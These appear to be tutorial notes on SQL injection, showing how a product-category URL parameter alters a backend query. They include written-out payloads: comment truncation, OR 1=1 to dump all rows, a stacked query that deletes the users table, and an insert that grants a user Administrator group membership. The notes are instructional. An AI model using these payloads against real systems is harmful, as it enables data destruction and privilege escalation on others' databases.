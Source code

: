 https://somesite.com/products?category=handbags' --
- Resulting Query will return all items
```sql
SELECT * FROM products WHERE category = ‘handbags’--’ AND released = 1
```

- URL

https://somesite.com/products?category=handbags
- Category is included in a Query checking if released is 1
SELECT * FROM products WHERE category = ‘handbags' AND released = 1
- URL with SQL Comment

```sql
https://somesite.com/products?category=handbags'+OR+1=1--
```
- Resulting Query will return all items
```sql
SELECT * FROM products WHERE category = ‘handbags' OR 1=1--' AND released = 1
```

- Category is included in a Query checking if released is 1
```sql
SELECT * FROM products WHERE category = ‘handbags' AND released = 1
```
- URL with SQL Comment
```sql
https://somesite.com/products?category=handbags’;delete * from users --
```
- Delete Query will be executed on users table.
- Update queries as well a unions with other tables can be returned

```sql
SELECT * FROM user WHERE name=‘Charles’ AND passwd=‘topsecret’
```
> close the query off, and add authorisation DML

```sql
Charles’; INSERT INTO groupMembership (userID, group) 
VALUES (SELECT userID FROM users
WHERE userName=‘Charles', 'Administrator'); --
```

### SQL injection vulnerability

![alt text](assets\IMG57.PNG)
